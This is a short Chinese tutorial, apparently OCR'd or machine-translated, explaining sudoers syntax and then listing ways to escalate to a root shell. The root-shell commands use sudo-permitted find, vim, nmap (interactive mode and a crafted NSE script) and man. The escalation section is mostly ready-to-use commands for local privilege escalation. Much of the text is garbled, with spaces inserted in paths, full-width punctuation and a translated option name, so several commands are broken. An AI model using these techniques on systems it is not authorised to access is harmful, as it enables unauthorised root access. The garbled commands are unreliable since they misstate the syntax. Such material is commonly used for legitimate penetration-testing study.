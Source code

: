 语法

```b
root ALL=(ALL) ALL
```

root用户可以从 ALL 终端作为 ALL （任意）用户执行，并运行 ALL （任意）命令

第一部分是用户，第二部分是用户可以在其中使用 sudo 命令的终端，第三部分是他可以充当的用户，最后一部分是他在使用时可以运行的命令。 sudo

```bash
touhid ALL= /sbin/poweroff
```

以上命令，使用户可以从任何终端使用touhid的用户密码关闭命令电源。

```bash
touhid ALL = (root) NOPASSWD: /usr/bin/find
```

上面的命令，使用户可以从任何终端运行，以root用户身份运行命令find 而无需密码。

### 利用SUDO用户

要利用sudo用户，您需要找到您必须允许的命令。

```
sudo -l
```

上面的命令显示了允许当前用户使用的命令。

**使用查找命令**

```
sudo find / etc / passwd -exec / bin / sh \;
sudo find / bin -name nano -exec / bin / sh \;
```

**使用Vim命令**

```
sudo vim -c'！sh'
```

**使用Nmap命令**

```
sudo nmap-交互式
nmap>！sh
sh-4.1＃
```

**没有互动的最新方式**

```bash
echo“ os.execute（'/ bin/ sh'）”> /tmp/shell.nse && sudo nmap --script = / tmp / shell.nse
```

**使用Man命令**

```bash
sudo man man
```
